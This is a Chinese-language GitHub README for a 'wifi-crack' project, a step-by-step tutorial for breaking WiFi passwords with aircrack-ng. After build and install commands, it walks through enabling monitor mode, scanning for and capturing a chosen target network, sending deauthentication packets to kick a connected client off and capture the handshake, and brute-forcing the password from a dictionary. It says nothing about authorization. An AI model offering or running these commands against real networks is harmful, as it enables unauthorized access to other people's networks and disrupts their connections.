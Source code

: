 ## wifi-crack

### Github地址
> https://github.com/linganmin/wifi-crack

### wifi破解工具下载和安装

#### 破解工具
> Aircrack-ng


#### 下载：
> 在Software目录下放有aircrack-ng-1.2-rc4版本，如需使用最新版请前往该软件官网 http://www.aircrack-ng.org 下载


#### 安装：
> 推荐使用linux-Ubuntu

- 先安装软件依赖
```
sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev 
```

- 将下载好的aircrack-ng解压
```
tar zxvf aircrack-ng-1.2-rc4.tar.gz
```

- 进入解压目录，编译，安装
```
cd aircrack-ng-1.2-rc4
make
sudo make install
```


### wifi破解过程
- 关闭网络管理器，为了防止干扰
```

service  network-manager stop
airmon-ng check kill
```

- 查看本机电脑的无线网卡名称，下面会用到
```
iwconfig
```

- 激活网卡为监听（monitor）模式
```
airmon-ng start wlan0
```
> wlan0为上面查看到的本机的无线网卡名称，替换为自己查看到的无线网卡名称即可


- 得到监控模式下的设备名是mon0，有的可能是wlan0mon，请记住这个名字

- 探测周围无线网络
```
airodump-ng wlan0mon
```
> wlan0mon为本机监控模式下的设备名，替换成自己监控模式下的设备名称即可,本机探测到WIFI如下图
![](./images/01.jpg)

- 监听指定WIFI，抓取目标的数据包(一直运行，知道攻击成功)
```
airodump-ng --bssid mac地址 -c 频道号 –w cap文件名 wlan0mon
```
> mac地址为上一步探测到的WiFi中你想破解的WIFI的mac地址，频道号为该mac地址所对应的频道号，cap文件名为攻击成功后生成的文件，最后暴力比对字典使用,监听图如下
![](./images/02.jpg)

- 另起一个终端，模拟目标wifi，向可信客户端发起断链攻击，以获取handshake,若一次不成功则多试几次
```
aireplay-ng -0 1 –a 目标wifi的mac地址 -c 客户端的mac地址 wlan0mon
```
> 攻击成功后,airodump-ng会捕获到handshake如下图 ,此时可以ctrl+c终止airodump-ng抓包。
![](./images/03.jpg)

- 通过字典暴力破解捕获到的加密密码
```
aircrack-ng -w 密码字典 捕获的cap文件
```

- 破解成功，恢复网络环境
```
service  network-manager start
```


### 注意点
> 在执行程序或安装程序过程中可能会频繁提示使用管理员权限，所以每条命令执行时最好在前面加上sudo

